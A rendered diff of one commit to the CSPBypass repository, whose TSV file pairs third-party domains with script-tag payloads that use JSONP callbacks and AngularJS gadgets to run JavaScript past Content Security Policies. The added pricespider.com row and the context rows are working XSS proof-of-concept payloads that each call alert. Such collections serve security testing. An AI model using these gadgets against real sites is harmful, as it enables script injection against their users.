

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

Commit message:
Added locate.pricespider.com.

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -117,2 +117,3 @@ lptag.liveperson.net	<script src="https://lptag.liveperson.net/lptag/api/account
 links.services.disqus.com	<script src="http://links.services.disqus.com/api/ping?format=jsonp&key=cfdfcf52dffd0a702a61bad27507376d&loc=http%3A%2F%2Fabcnews.go.com%2Fblogs%2Fhealth%2F2013%2F03%2F21%2F1-in-10-u-s-deaths-blamed-on-salt%2F&subId=2329827&v=1&jsonp=alert"></script>
+locate.pricespider.com	<script src="https://locate.pricespider.com/?callback=alert(1)"></script>
 m.media-amazon.com	<body ng-app ng-csp><script src="https://m.media-amazon.com/images/I/81cx8O4at9L.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
```
Also changed, not shown: 1 other file.
